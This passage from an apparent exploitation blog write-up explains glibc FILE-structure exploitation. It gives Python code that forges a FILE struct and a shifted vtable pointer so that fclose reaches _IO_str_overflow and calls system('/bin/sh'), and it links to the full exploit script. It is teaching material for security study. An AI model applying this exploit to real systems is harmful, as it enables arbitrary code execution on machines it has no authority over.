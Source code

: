 ```python
rip = libc_base + libc.symbols['system']
rdi = libc_base + next(libc.search("/bin/sh"))
```

Our next step is to point `vtable` to some address, such that, `fclose` will actually call `_IO_str_overflow`. I used gdb to find the relative offset of a pointer to `_IO_str_overflow` from `_IO_file_jumps`, which apparently is `0xd8` for the provided libc. Now, if I point the `vtable` to `0x10` bytes before it, `fclose` will call `_IO_str_overflow` (again from gdb).

```python
io_str_overflow_ptr_addr = libc_base + libc.symbols['_IO_file_jumps'] + 0xd8
# Calculate the vtable by subtracting appropriate offset
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8
```

Next, we can craft our fake 'FILE' structure by setting appropriate `vtable` and also other pointers so as to call `rip` with `rdi` as a parameter.

```python
# Craft file struct
file_struct = pack_file(_IO_buf_base = 0,
                        _IO_buf_end = (rdi-100)/2,
                        _IO_write_ptr = (rdi-100)/2,
                        _IO_write_base = 0,
                        _lock = bin.symbols['fake_file'] + 0x80)
# vtable pointer
file_struct += p64(fake_vtable_addr)
# (*((_IO_strfile *) fp)->_s._allocate_buffer)
file_struct += p64(rip)
file_struct = file_struct.ljust(0x100, "\x00")
```

Note that we also have to set `fp->_lock` to an address pointing to `NULL` to prevent `fclose` waiting on someone else for releasing the lock. The complete exploit can be downloaded [here](/assets/files/FILE-Structure-Exploitation/exploit.py).

_Note_: Another possible function (instead of `_IO_str_overflow`) that one could use is `_IO_wstr_finish()` as seen in this [post](http://blog.rh0gue.com/2017-12-31-34c3ctf-300/) by Josh Wang.

> ## Conclusion

Given that an attacker has control over a few fields of the 'FILE' structure(for `rdi`), the `vtable` pointer and 8 bytes after it (for `rip`), the additional check on `vtable` offers not much protection.